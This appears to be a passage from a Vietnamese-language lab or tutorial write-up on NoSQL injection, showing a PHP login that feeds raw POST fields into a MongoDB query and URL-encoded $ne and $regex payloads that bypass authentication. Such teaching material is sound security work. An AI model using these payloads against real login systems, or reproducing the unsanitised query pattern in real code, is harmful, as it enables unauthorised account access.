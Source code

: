 2. **Cách khai thác lỗ hổng**:
   - Phía máy chủ, khi người dùng gửi thông tin đăng nhập, ứng dụng kiểm tra xem `email` và `password` có tồn tại và không rỗng, sau đó truy vấn cơ sở dữ liệu để kiểm tra người dùng với email và mật khẩu được cung cấp.

   **Ví dụ về mã kiểm tra xác thực**:
   ```php
   if ($_SERVER['REQUEST_METHOD'] === "POST") {
       if (!isset($_POST['email'])) die("Missing `email` parameter");
       if (!isset($_POST['password'])) die("Missing `password` parameter");
       if (empty($_POST['email'])) die("`email` can not be empty");
       if (empty($_POST['password'])) die("`password` can not be empty");

       $manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
       $query = new MongoDB\Driver\Query(array("email" => $_POST['email'], "password" => $_POST['password']));
       $cursor = $manager->executeQuery('mangomail.users', $query);

       if (count($cursor->toArray()) > 0) {
           // Đăng nhập thành công
       }
   }
   ```
   - Vì `email` và `password` là đầu vào từ người dùng và không được lọc kỹ, kẻ tấn công có thể điều khiển truy vấn bằng cách sử dụng các toán tử NoSQL như `$ne` (khác), `$regex` (biểu thức chính quy),… để đánh lừa hệ thống.

3. **Khai thác bằng `$ne`**:
   - Sử dụng toán tử `$ne` trên cả `email` và `password` để khớp với bất kỳ tài liệu nào không có email là `[email protected]` và mật khẩu không phải `test`.
   
   **Truy vấn MongoDB để khai thác**:
   ```javascript
   db.users.find({
       email: {$ne: "[email protected]"},
       password: {$ne: "test"}
   });
   ```
   - Chúng ta có thể biến đổi truy vấn trên thành URL-encoded cho POST request:
     ```
     email[$ne]=notadmin%40mangomail.com&password[$ne]=test
     ```
   - Kết quả: Bỏ qua xác thực và truy cập vào tài khoản.

4. **Khai thác bằng `$regex`**:
   - Sử dụng toán tử `$regex` để khớp mọi ký tự (không cần điều kiện chính xác), bằng cách khớp với chuỗi `/.*/`.

   **Truy vấn MongoDB với `$regex`**:
   ```javascript
   db.users.find({
       email: {$regex: /.*/},
       password: {$regex: /.*/}
   });
   ```
   - Chuyển đổi truy vấn trên sang URL-encoded:
     ```
     email[$regex]=.*&password[$regex]=.*
     ```
   - Kết quả: Bỏ qua xác thực và truy cập vào hệ thống.

